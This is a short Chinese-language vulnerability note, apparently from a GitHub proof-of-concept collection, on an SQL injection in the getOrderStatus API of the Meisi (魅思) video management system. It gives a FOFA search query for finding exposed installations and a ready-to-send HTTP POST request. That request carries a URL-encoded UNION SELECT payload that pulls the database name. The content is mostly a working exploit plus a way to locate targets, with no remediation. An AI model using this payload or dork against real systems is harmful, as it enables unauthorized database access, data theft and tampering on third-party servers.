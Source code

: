 # 魅思视频管理系统getOrderStatus存在SQL注入漏洞

魅思视频管理系统getOrderStatus存在SQL注入漏洞，允许攻击者通过恶意构造的SQL语句操控数据库，从而导致数据泄露、篡改或破坏，严重威胁系统安全。

## fofa

```javascript
app="魅思-视频管理系统"
```

## poc

```javascript
POST /api/getOrderStatus HTTP/1.1
Content-Type: application/x-www-form-urlencoded
user-agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36

orderSn=%27%29+UNION+ALL+SELECT+NULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CCONCAT%28IFNULL%28CAST%28database%28%29+AS+NCHAR%29%2C0x20%29%29%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL--+-
```

![image-20240917160329467](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409171603549.png)